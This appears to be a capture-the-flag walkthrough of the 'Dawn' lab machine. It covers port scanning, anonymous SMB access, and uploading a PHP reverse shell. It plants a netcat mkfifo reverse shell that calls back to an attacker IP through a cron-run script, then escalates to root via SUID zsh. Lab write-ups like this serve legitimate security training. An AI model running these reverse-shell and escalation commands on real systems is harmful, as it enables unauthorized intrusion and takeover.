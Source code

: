 # Dawn

## Nmap

```
sudo nmap 192.168.152.11 -p- -sS -sV

PORT     STATE SERVICE     VERSION
80/tcp   open  http        Apache httpd 2.4.38 ((Debian))
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3306/tcp open  mysql       MySQL 5.5.5-10.3.15-MariaDB-1
Service Info: Host: DAWN
```

On port 445 we are able to list shares without credentials. We see the share ITDEPT is open to us.

```
smbclient -U '' -L \\\\192.168.152.11\\
```

![](<../../../.gitbook/assets/image (1166).png>)

Connecting then directly to the ITDEPT share.

```
smbclient -U '' \\\\192.168.152.11\\ITDEPT
```

![](<../../../.gitbook/assets/image (1167).png>)

I then used `curl` to test for file upload on the share and confirmed was able to upload a PHP reverse shell which might come in handy for later.

```
curl --upload-file /home/kali/scripts/phpshell.php -u '' smb://192.168.152.11/ITDEPT//phpshell.php 
```

![](<../../../.gitbook/assets/image (1168).png>)

Running `dirsearch.py` on port 80 reveals two interesting directories.

```
python3 dirsearch.py -u http://192.168.152.11  -w /usr/share/seclists/Discovery/Web-Content/big.txt -t 60 --full-url 
```

![](<../../../.gitbook/assets/image (1169).png>)

Moving into logs shows the a list of logs where management.log is the only one we have permission to access

![](<../../../.gitbook/assets/image (1170).png>)

When reading the log file we have the lines below appearing frequently.

```
2020/08/12 09:25:0 CMD: UID=33   PID=1360   | /bin/sh -c /home/dawn/ITDEPT/web-control
2020/08/12 09:25:0 CMD: UID=1000 PID=1359   | /bin/sh -c /home/dawn/ITDEPT/product-control
```

Knowing that we have write access to the ITDEPT share we can upload a reverse shell call it web-control and in theory this should execute.

Firstly I created a file called web-control and inserted a `netcat` reverse shell into it

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.152 80 >/tmp/f
```

This was then uploaded to the SMB share.

![](<../../../.gitbook/assets/image (1172).png>)

After doing so I soon receive a shell back on my `netcat` listener.

![](<../../../.gitbook/assets/image (1173).png>)

Then we can upgrade the shell to something nicer.

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

After doing so I then transferred over `linpeas` from my attacking machine by uploading to SMB. After running linpeas we identify the binary `zsh` as having the SUID bit set.

![](<../../../.gitbook/assets/image (1174) (1).png>)

As `zsh` is a shell binary all we need to do is execute the full path of `zsh` to gain a root shell.

```
/usr/bin/zsh
```

![](<../../../.gitbook/assets/image (1176).png>)
